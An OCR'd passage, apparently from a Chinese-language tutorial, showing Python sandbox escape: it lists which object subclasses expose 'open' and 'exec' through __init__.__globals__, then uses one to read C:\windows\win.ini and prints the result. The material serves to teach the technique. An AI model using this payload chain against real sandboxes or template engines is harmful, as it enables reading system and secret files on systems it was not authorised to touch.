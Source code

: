 ```none
----------2-----------                                      103 <class 'codecs.IncrementalEncoder'> open None           104 <class 'codecs.IncrementalDecoder'> open None           105 <class 'codecs.StreamReaderWriter'> open None           106 <class 'codecs.StreamRecoder'> open None                128 <class 'os._wrap_close'> open None                      ----------3-----------                                      75 5 <class '_frozen_importlib._ModuleLock'> open           75 5 <class '_frozen_importlib._ModuleLock'> exec           76 5 <class '_frozen_importlib._DummyModuleLock'> open      76 5 <class '_frozen_importlib._DummyModuleLock'> exec      77 5 <class '_frozen_importlib._ModuleLockManager'> open    77 5 <class '_frozen_importlib._ModuleLockManager'> exec    78 5 <class '_frozen_importlib._installed_safely'> open     78 5 <class '_frozen_importlib._installed_safely'> exec     79 5 <class '_frozen_importlib.ModuleSpec'> open            79 5 <class '_frozen_importlib.ModuleSpec'> exec            91 5 <class '_frozen_importlib_external.FileLoader'> open   91 5 <class '_frozen_importlib_external.FileLoader'> exec   92 5 <class '_frozen_importlib_external._NamespacePath'> open92 5 <class '_frozen_importlib_external._NamespacePath'> exec93 5 <class '_frozen_importlib_external._NamespaceLoader'> open93 5 <class '_frozen_importlib_external._NamespaceLoader'> exec95 5 <class '_frozen_importlib_external.FileFinder'> open   95 5 <class '_frozen_importlib_external.FileFinder'> exec   103 7 <class 'codecs.IncrementalEncoder'> open              103 7 <class 'codecs.IncrementalEncoder'> exec              103 56 <class 'codecs.IncrementalEncoder'> open             104 7 <class 'codecs.IncrementalDecoder'> open              104 7 <class 'codecs.IncrementalDecoder'> exec              104 56 <class 'codecs.IncrementalDecoder'> open             105 7 <class 'codecs.StreamReaderWriter'> open              105 7 <class 'codecs.StreamReaderWriter'> exec              105 56 <class 'codecs.StreamReaderWriter'> open             106 7 <class 'codecs.StreamRecoder'> open                   106 7 <class 'codecs.StreamRecoder'> exec                   106 56 <class 'codecs.StreamRecoder'> open                  128 1 <class 'os._wrap_close'> open                         128 1 <class 'os._wrap_close'> exec                         128 7 <class 'os._wrap_close'> open                         128 7 <class 'os._wrap_close'> exec                         128 11 <class 'os._wrap_close'> open                        129 7 <class '_sitebuiltins.Quitter'> open                  129 7 <class '_sitebuiltins.Quitter'> exec                  130 7 <class '_sitebuiltins._Printer'> open                 130 7 <class '_sitebuiltins._Printer'> exec                 137 7 <class 'types.DynamicClassAttribute'> open            137 7 <class 'types.DynamicClassAttribute'> exec            138 7 <class 'types._GeneratorWrapper'> open                138 7 <class 'types._GeneratorWrapper'> exec                139 7 <class 'warnings.WarningMessage'> open                139 7 <class 'warnings.WarningMessage'> exec                140 7 <class 'warnings.catch_warnings'> open                140 7 <class 'warnings.catch_warnings'> exec                167 7 <class 'reprlib.Repr'> open                           167 7 <class 'reprlib.Repr'> exec                           174 7 <class 'functools.partialmethod'> open                174 7 <class 'functools.partialmethod'> exec                176 7 <class 'contextlib._GeneratorContextManagerBase'> open176 7 <class 'contextlib._GeneratorContextManagerBase'> exec177 7 <class 'contextlib._BaseExitStack'> open              177 7 <class 'contextlib._BaseExitStack'> exec              ----------4-----------                                      140 open                                                    140 exec                                                    
```

既然筛选出来，那么选其中一个利用来读取文件：

```none
>>> "".__class__.__bases__[0].__subclasses__()[103]<class 'codecs.IncrementalEncoder'>
```

完整执行

```none
>>> "".__class__.__bases__[0].__subclasses__()[103].__init__.__globals__['open']("C:\\windows\\win.ini").read()'; for 16-bit app support\n[fonts]\n[extensions]\n[mci extensions]\n[files]\n[Mail]\nMAPI=1\nCMCDLLNAME32=mapi32.dll\nCMC=1\nMAPIX=1\nMAPIXVER=1.0.0.1\nOLEMessaging=1\n[xianshuabao]\nclient_uuid={xxx}\n'
```
